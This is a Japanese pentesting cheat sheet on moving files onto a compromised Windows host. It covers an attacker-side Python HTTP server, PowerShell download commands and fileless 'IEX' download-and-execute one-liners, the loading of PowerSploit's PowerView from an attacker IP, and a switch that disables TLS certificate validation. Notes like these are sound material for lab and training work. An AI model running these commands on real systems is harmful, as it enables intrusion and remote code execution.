 - PowerShellを使用してファイルをダウンロードする方法の例
##### 攻撃者側
pythonでHTTPサーバーとかを立ち上げて、アクセスさせる
 ```bash
python3 -m http.server 8080
 ```

  攻撃者サーバーを一時的にwebサーバーとする

##### ターゲット側
- クラス名`Net.WebClient`とメソッド`DownloadFile`を、ダウンロードするターゲットファイルのURLに対応するパラメータと出力ファイル名で指定する
- 
```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

ファイルレスメソッド
- `fileless` : いくつかのオペレーティングシステム機能を使用してペイロードをダウンロードし、直接実行する
```powershell
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>.ps1')
```

`IEX`パイプライン入力も受け付ける
```powershell
(New-Object Net.WebClient).DownloadString('<Target File URL>.ps1') | IEX
```

#### WebRequest
##### ターゲット側

- PowerShell 3.0以降、[Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2)コマンドレットも使用できますが、ファイルのダウンロードが著しく遅くなります。`Invoke-WebRequest`のフルネームの代わりに、別名`iwr`、`curl`、`wget`を使用できる
```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

#### PowerShellのよくあるエラー
- Internet Explorer の初回起動設定が完了していないため、ダウンロードが妨げられる場合がある
	- パラメータ`-UseBasicParsing`を使用してバイパスできる
例
```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

- PowerShell ダウンロードの別のエラーは、証明書が信頼されない場合、SSL/TLS セキュア チャネルに関連しています。次のコマンドでそのエラーをバイパスできる
```powershell
 [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```


#### SMB
